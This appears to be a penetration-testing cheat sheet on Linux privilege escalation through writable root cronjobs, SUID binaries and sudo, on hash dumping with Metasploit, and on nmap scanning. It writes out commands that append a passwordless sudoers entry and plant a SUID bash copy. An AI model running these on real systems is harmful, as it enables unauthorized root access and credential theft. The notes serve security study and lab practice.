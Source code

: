 #### Linux privesc
- linux-exploit-suggester
##### Misconfigured cronjob
- cronjobs can be run as any user but the one of interest is the one being run as root.
```bash
view crontab set by a user we are running as :-
$ crontab -l

lets say we wanted to find any scrpts or files on the host that referenced or included a "root_file" within
$ grep -rnw /usr -e "/home/user/root_file "

say we found a writable shell script owned by root and runs with cron, we can add ourselves to sudoers in the file by adding this line 
$ printf '#!/bin/bash\necho "rami ALL=NOPASSWD:ALL" >> /etc/sudoers' > $WRITABLEFILE.sh

OR JUST
> echo "cp -p /bin/bash /tmp/rami && chmod +s /tmp/rami" >> /usr/local/share/copy.sh
```

##### SUID Bins
> SUID BINARIES - Set Owner User ID
```bash
$ strings binary

if the binary is calling another binary, you can delete that and replace the binary being called with /bin/bash
```
>Misconfigured sudo perms 
```bash
sudo -l
# check for a sudo abuse with gtfobins.io
```

##### Hashdumping
> hashdumping
```bash
gain a shell and upgrade to meterpreter
sessions -u $ID

MSF LINUX HASHDUMP
> search hashdump
> use post/linux/gather/hashdump
> set session $ID
```

# Metasploit Framework
> Scanning & Enumeration 
```bash
# do an nmap scan and save to an XML file, then start the postgresql server.

Import nmap scan results
> db_import /path/to/xmlfile
> hosts
> services
> vulns

# Use nmap without a need to import scans by running inside a workspace in MSF 
> db_nmap -sV $IP -Pn -p- -vv -O
```
### FTP enum
```bash
# enumerate ftp
```